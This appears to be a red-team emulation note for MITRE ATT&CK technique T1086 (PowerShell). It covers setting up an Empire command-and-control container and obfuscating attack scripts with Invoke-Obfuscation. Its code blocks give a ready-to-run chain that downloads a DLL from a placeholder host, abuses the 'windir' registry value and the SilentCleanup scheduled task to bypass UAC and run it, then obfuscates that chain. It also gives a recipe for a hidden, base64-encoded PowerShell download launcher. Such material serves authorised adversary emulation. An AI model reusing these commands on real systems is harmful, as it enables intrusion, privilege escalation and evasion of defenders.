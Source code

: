 # PowerShell

---
* **ID**: T1086
* **Source**: <https://attack.mitre.org/techniques/T1086/>
---

# Details

## Tools
### Empire
* Install `Docker` on your C2 host
* Edit `~/.bashrc` to add the following aliases:
```
# Empire docker command
alias empire_start='docker exec -it $(docker run -d -p 80:80 empireproject/empire) python2.7 empire'
alias empire_stop='docker kill $(docker ps | grep empire | cut -d " " -f 1)'
```
* Run the command below to make the aliases take effect:
```
source ~/.bashrc
```
* Execute the following commands to start/stop your `Empire` containers:
  * Start `Empire` container: `empire_start`
  * Stop `Empire` container: `empire_stop`

### Invoke-Obfuscation
* Install [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
* Import module and run it to obfuscate the PowerShell script block as following:
```
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
set scriptblock powershell Invoke-WebRequest -Uri "http://example.com/example.dll" -OutFile %ALLUSERSPROFILE%\example.dll;Set-ItemProperty -Path "HKCU:\Environment" -Name 'windir' -Value 'rundll32 %ALLUSERSPROFILE%\example.dll,DllMain ' -Force;schtasks.exe /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I;Remove-ItemProperty -Path "HKCU:\Environment" -Name 'windir' -Force
Encoding\5
Compress\1
Launcher\PS\7
clip
```

### PowerCat
* See [Exfiltration Over Command and Control Channel](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1041/T1041.md)

## Common tips
### PowerShell Base64 encode
```
powershell
$cmd = 'Invoke-WebRequest -Uri "http://example.com/example.exe" -OutFile C:\ClientDir\example.exe';
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd);
$encodedCommand = [Convert]::ToBase64String($bytes);
$psh = "powershell -noP -sta -w 1 -enc "+$encodedCommand;
Write-Output $psh
```

# References

* <http://avfisher.win/archives/100>
* <https://github.com/danielbohannon/Invoke-Obfuscation>
* <https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1041/T1041.md>
